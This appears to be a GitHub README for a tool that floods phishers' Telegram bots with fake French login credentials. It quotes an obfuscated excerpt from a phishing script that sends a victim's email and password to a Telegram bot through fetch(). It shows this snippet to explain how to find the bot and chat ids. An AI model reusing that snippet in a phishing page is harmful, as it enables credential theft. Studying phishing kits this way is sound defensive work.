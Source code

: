 # Goal of the projet 
This project is meant to mess with phishers using telegram bots as exfiltration process.
just find their bot id and chat id .

## Finding the ids
in the malicious script extract bot id and chat id. For instance here : 
```
        function _0x1298a(data) {
            const _0x40d1b3a = 'xxxxxxx';
            const _0x301fc5a = 'yyyyyyy';

            const _0x93b389a = `Nouvelle connexion :\n📧 : ${data.email} \n 🔑 : ${data.password}`;

            const _0x190b9ea = `https://api.telegram.org/bot${_0x40d1b3a}/sendMessage?chat_id=${_0x301fc5a}&text=${encodeURIComponent(_0x93b389a)}`;

            fetch(_0x190b9ea, {
```
we can clearly see the bot id as _0x40d1b3a and chat id as _0x301fc5a

## usage
Install the requirements
then call python lol.py -b xxxxxxx -c yyyyyyyy

## Customization

This script was designed for a french phisher so the emails are generated with french names and domaines but feel free to change them to match your needs.
You can use chatgpt to create lists of first names, last names and domains matching your country
